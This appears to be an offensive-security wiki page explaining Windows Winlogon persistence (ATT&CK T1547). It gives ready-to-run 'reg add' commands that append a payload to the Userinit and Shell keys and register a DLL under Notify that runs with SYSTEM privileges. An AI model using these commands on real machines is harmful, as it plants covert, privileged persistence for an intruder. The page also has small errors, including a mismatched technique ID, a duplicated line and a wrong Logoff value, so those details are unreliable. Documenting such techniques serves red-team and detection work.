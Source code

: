 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Winlogon Helper DLL -
  Technique T1547.001
---
```


# Winlogon

## Theory

Winlogon, the Windows component that loads your user profile right after authentication. It can be abuse for persistence. We may edit the `Shell,` `Userinit & Notify` keys under HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ to make Winlogon load and execute malicious DLLs and/or executables.

## Practice

{% hint style="success" %}
Registry entries under `HKU/HKCU` will only apply to the user.\
Registry entries under `HKLM` will apply to everyone
{% endhint %}

{% hint style="danger" %}
If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. **Interestingly, you can append commands separated by a comma, and Winlogon will process them all**.
{% endhint %}

{% tabs %}
{% tab title="Userinit " %}
We may edit the `Userinit` key to make our payload executed during Windows logon

* HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit&#x20;
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit&#x20;

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\Userinit.exe, C:\Windows\shell.exe" /f
```
{% endtab %}

{% tab title="Shell" %}
We may edit the `Shell` key to make our payload executed during Windows logon

* HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, C:\Windows\shell.exe" /f
```
{% endtab %}

{% tab title="Notify" %}
We may edit the `Notify` key to make our payload executed during Windows logon. This registry key is typically found in older operating systems **(prior to Windows 7)** and it points to a notification package DLL file which handles Winlogon events. Replacing DLL entries under this registry key with an arbitrary DLL will cause Windows to execute it during logon.

* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Add the following values and keys to the registry. These values communicate to Winlogon.exe and let it know which procedures to run during an event notification. Add as few or as many notification events as needed.

```

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\NameOfProject
       \Asynchronous  REG_DWORD  0
       \Dllname       REG_SZ     NameOfDll.dll
       \Impersonate   REG_DWORD  0
       \Logon         REG_SZ     StartProcessAtWinLogon
       \Logoff        REG_SZ     StopProcessAtWinLogoff
       \...           REG_SZ     NameOfFunction
```

{% hint style="success" %}
The DLL will be executed with SYSTEM level privileges

The DLL should be in %NTROOT%\system32
{% endhint %}

```bash
#Create Project in Notify
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon"

#Create subkeys
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_DWORD /v Asynchronous /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_DWORD /v Asynchronous /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_SZ /v Dllname /d "evillogon.dll" 
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_SZ /v Logon /d "StartProcessAtWinLogon"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_SZ /v Logoff /d "StartProcessAtWinLogon"
...
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/004/" %}
